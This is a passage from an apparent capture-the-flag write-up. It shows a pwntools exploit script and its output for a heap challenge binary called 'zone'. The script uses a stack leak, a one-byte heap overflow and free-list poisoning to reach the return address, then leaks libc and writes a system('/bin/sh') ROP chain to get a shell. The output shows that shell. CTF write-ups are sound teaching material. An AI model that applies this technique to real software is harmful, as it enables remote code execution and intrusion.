 ```
fakeBlock = leak + 0x78
log.info("Stack leak is: " + hex(leak))
log.info("Fake Block address is: " + hex(fakeBlock))

# Allocate the first block, and overwrite the size value of the next block with 0x80
alloc(64)
write("\x80"*65)

# Allocate the block with the overwritten size value, then free it
alloc(64)
delete()

# Allocate the block we just freed, since it was added to the free list of size 0x80
alloc(128)

# Overwrite the next free block pointer of the next chunk to point to the return address
payload = "0"*0x40 + p64(0x40) + p64(fakeBlock)  
write(payload)

# Allocate two more chunks to get a block that points to the return address we can write to
alloc(64)
alloc(64)

# Print the contents of the return address for an infoleak, and filter it out
printb()
libcLeak = target.recvline()
libcLeak = libcLeak.replace("\x0a", "")
libcLeak = u64(libcLeak + "\x00"*2)
log.info("Libc infoleak: " + hex(libcLeak))

# Form the payload to get rce, and write it
payload = p64(gadget) + p64(libcLeak + binsh) + p64(libcLeak + system)
write(payload) 

# Exit the function to execute our payload
ret()

# Drop to an interactive shell to use the shell
log.info("Enjoy your slay XD. I might listen to Ice Nine Kills a bit too much")
target.interactive()
```

and when we run the exploit:

```
$	python exploit.py 
[+] Starting local process './zone': pid 20348
[*] Stack leak is: 0x7ffce364a8a0
[*] Fake Block address is: 0x7ffce364a918
[*] Libc infoleak: 0x7effd9ebe830
[*] Enjoy your slay XD. I might listen to Ice Nine Kills a bit too much
[*] Switching to interactive mode
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
$ w
 18:37:47 up  7:51,  1 user,  load average: 0.44, 0.33, 0.41
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guy      tty7     :0               10:47    7:50m  9:59   0.25s /sbin/upstart --user
$ ls
core        peda-session-dash.txt      peda-session-zone.txt  zone
exploit.py  peda-session-ls.txt        readme.md
```